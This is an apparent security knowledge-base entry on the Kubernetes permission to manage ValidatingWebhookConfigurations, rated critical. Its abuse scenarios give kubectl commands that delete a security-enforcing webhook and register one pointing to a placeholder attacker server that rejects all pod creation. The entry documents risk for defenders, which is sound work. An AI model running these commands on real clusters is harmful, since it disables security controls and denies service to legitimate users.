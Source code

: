 ```yaml
---
id: 1044
title: "Manage ValidatingWebhookConfigurations"
description: "Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                   |
| ------------- | --------------------------------------------------------------------------------------- |
| ID            | 1044                                                                                    |
| Name          | Manage ValidatingWebhookConfigurations                                                  |
| Risk Category | Tampering                                                                               |
| Risk Level    | {{< risk Critical >}}                                                                   |
| Role Type     | ClusterRole                                                                             |
| API Groups    | admissionregistration.k8s.io                                                            |
| Resources     | validatingwebhookconfigurations                                                         |
| Verbs         | create, update, patch, delete                                                           |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Allows control over ValidatingWebhookConfigurations, which can validate or reject API objects during admission. An attacker can use this to tamper with security policies (e.g., disable a validating webhook that enforces security best practices) or cause denial of service by rejecting legitimate requests.

## Abuse Scenarios

1. Delete a ValidatingWebhookConfiguration that enforces security policies.

```bash
kubectl delete validatingwebhookconfiguration <webhook-name>
# Example: kubectl delete validatingwebhookconfiguration pod-security-policy-webhook

```

2. Create a ValidatingWebhookConfiguration to block legitimate resource creation (DoS).

```bash
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: deny-all-pods
webhooks:
- name: deny-all-pods.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/validate" # Attacker-controlled server that always denies
    caBundle: <base64-encoded-ca-cert>
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Fail # Crucial for DoS
EOF
# Example: kubectl create -f - <<EOF ... EOF

```
